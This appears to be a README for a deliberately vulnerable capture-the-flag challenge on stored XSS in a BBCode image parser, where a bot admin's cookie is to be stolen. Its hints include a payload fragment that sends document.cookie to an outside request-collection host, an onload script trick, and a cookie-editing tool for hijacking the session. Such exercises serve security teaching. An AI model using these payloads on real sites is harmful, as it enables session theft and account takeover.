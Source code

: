# XSS/CSRF Challenge 4

----------------------

Hey friend,

I have a new concern I'm hoping you can help me with.

I had a user recently complain to me that his account got hacked. Apparently the hacker found something in my BBCode parser he was able to exploit to do an XSS attack and steal this user's cookie, then login as him.

Can you see if you can duplicate that attack?

Just like the previous challenge, I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game. To trigger it, just go to Trigger Admin Browser in the navigation. See if you can steal that account's cookies!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   BBCode allows you to embed an image like so: ```[img]http://url.com/image.jpg[/img]```
   
   Play around with that.
</details>

<details> 
  <summary>Click for hint 2</summary>
   Try breaking the BBCode image tag by inserting other characters (besides the url) inside of it. Use chrome inspector or view-source on "My Profile" to see what your BBCode input looks like when it's translated into html.
</details>

<details> 
  <summary>Click for hint 3</summary>
   http://requestb.in/ is a neat site for testing webhooks. Cookie stealing is kind of like a webhook. If you were somehow able to get javascript execution, you could potentially change the SRC of the image to something like this:
   
   ```http://requestb.in/1fj9x6o1?c='+document.cookie```
   
   And then review the cookie (passed as a GET parameter) on requestb.in!
</details>

<details> 
  <summary>Click for hint 4</summary>
   Did you know you can execute javascript when an image loads? It's simple! All you have to do is use the onLoad attribute, like so:
   
   ```<img src="logo.png" onload="alert(1)">```
</details>

<details> 
  <summary>Click for hint 5</summary>
   While you can edit cookies with plain javascript, you can also cheat and use a browser extension like [this one](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en).
</details>





